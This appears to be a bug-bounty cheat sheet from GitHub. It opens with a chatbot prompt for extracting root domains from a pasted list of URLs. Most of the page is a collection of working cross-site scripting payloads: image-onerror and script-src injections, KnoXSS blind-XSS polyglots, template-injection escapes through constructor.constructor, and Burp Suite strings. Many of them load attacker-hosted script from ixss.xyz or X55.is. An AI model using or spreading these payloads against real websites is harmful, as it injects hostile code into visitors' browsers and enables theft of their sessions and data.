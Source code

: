 ```
Hey, I will paste a large amount of text containing URLs, domains, wildcards (e.g. *.example.com), and subdomains (e.g. blog.example.com).

Your task is to:
- Extract only the **root/base domains** (e.g. example.com).
- Ignore subdomains, wildcards, ports, paths, and query strings.
- Remove duplicates — each root domain should appear only once.
- Output the result as a **sorted list inside a single code block**, with one domain per line.
- Do not include any explanation or extra text — only the clean list of domains inside the code block.

Now wait for my input.
```

## General Payload Collection:
```bash
"><img src=x onerror=alert(1)>
```
```bash
-->';"><img src=x onerror=import('//ixss.xyz')>//
```
```bash
-->';"><script src=//ixss.xyz></script><x="
```
```bash
"><img/src/onerror=import('//ixss.xyz')>
```
```bash
$.getScript("//ixss.xyz")
```
```bash
{{_openBlock.constructor('import("//ixss.xyz")')()}}{{constructor.constructor('import("//ixss.xyz")')()}}
```
```bash
javascript:import('//ixss.xyz')
```
```bash
javascript:eval('var a=document.createElement(\'script\');a.src=\'//ixss.xyz\';document.body.appendChild(a)')
```
```bash
';"/><h1>test{{7*7}}
```
```bash
HTML<h1>HTML&gt;h1&lt;Test{{7*7}}[[7*7]]
```

## KnoXSS
>Blind XSS Custom Vector - Short Polyglot (HTML & JS Main Cases)
```
'/*\'/*"/*\"/*</Script><Input/AutoFocus/OnFocus=/**/(import(/https:\\X55.is?1=19473/.source))//>
```
>Blind XSS Custom Vector - Full Polyglot (20+ XSS Cases): Best, for non-restricted inputs.

```
JavaScript://%250A/*?'/*\'/*"/*\"/*`/*\`/*%26apos;)/*<!--></Title/</Style/</Script/</textArea/</iFrame/</noScript>\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(import(/https:\\X55.is?1=19473/.source))}//\76-->
```

## Burpsuite Payloads:
```
bxss
```
```
';\"><script src=//ixss.xyz></script><x=\"
```
```
';\"><img src onerror=import('//ixss.xyz')>
```
```
htmli
```
```
\"/><h1>test{{7*7}}[[7*7]]
```
